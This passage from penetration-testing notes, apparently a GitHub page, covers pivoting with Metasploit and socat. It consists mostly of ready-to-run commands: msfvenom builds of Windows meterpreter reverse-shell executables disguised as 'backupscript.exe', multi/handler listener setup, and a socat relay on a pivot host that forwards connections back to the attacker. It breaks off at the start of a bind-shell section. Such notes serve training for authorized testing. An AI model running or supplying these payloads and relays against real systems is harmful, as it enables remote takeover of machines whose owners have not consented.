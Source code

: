 ```console
meterpreter > bg 

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
msf6 exploit(multi/handler) > run
```

We can now create a reverse shell payload that will send a connection back to our Ubuntu server:
```console
zero@pio$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<PIVOT HOST> -f exe -o backupscript.exe LPORT=1234
```

Finally, if we execute our payload on the Windows host, we should be able to receive a shell from Windows pivoted via the Ubuntu server.

---

# Socat 

## Redirection with a Reverse Shell

**Socat** is a bidirectional relay tool that can create pipe sockets between **2 independent network channels** without needing to use SSH tunneling. We can start it in the pivot host:
```console
ubuntu@pivot$ socat TCP4-LISTEN:8080,fork TCP4:<OUR IP>:80
```

Once our redirector is configured, we can create a payload that will connect back to our redirector. 
```console
zero@pio$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<TARGET> -f exe -o backupscript.exe LPORT=8080
```

Transfer the payload to the host and start a **multi/handler**:
```console
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
msf6 exploit(multi/handler) > run
```

We can test this by running our payload on the windows host, and we should see a network connection from the Ubuntu server this time.

## Redirection with a Bind Shell

We can also create a socat bind shell redirector. In the case of bind shells, the Windows server will start a listener and bind to a particular port. 

